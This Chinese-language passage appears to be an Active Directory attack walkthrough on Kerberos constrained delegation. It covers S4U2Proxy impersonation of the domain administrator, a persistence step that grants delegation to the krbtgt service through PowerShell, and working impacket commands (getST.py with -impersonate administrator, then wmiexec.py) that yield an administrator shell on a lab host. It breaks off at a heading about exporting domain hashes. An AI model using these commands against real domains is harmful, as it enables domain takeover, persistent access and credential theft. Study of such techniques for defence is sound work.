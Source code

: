 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091120.png)

###  **TGS-REQ**

win7用户拿到了administrator的ST1票据后，win7带上这张 **可转发** 的访问自身服务的票据 ，用上S4U2Proxy协议，
**以administrator用户的名义请求一张访问WIN-KONG的CIFS服务的ST2票据**

![]()

###  **TGS-REP**

TGS返回以administrator用户访问WIN-
KONG的CIFS服务的票据，也就是得到了TGS_Administrator@hiro.com@HIRO.COM_cifs~WIN-
KONG.hiro.com@HIRO.COM.kirbi

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091121.png)

通过流程可以看出， **第一步生成的可转发的ST1只是为了请求第二步以administrator用的名义请求一张访问WIN-
KONG的CIFS服务的ST2票据** 。

* * *

###  **利用约束委派权限维持**

 **通过约束委派生成黄金票据**

`TGT由krbtgt Hash加密，如果能通过委派krbtgt服务，那么就能伪造任意用户的TGT了。`

由于krbtgt默认是禁用的，所以无法使用页面添加它的SPN。

 **域控通过powershell添加win7到krbtgt的约束委派：**

`powershell -exec bypass`

`Import-Module ActiveDirectory`

`$user = Get-ADUser win7` （win7为设置为约束委派的服务账号）

`Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/hiro.com")
}`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091123.png)

 **利用impacket套件攻击**

`伪造administrator的TGT`

`python3 getST.py -dc-ip 192.168.228.10 -spn krbtgt/hiro.com -impersonate
administrator hiro.com/win7:123456QWE.`

`export KRB5CCNAME=administrator.ccache`

用wmiexec弹出一个权限为administrator交互式的shell

`python3 wmiexec.py -no-pass -k administrator@WIN-KONG.hiro.com -dc-ip
192.168.228.10`

 **导出域内哈希**
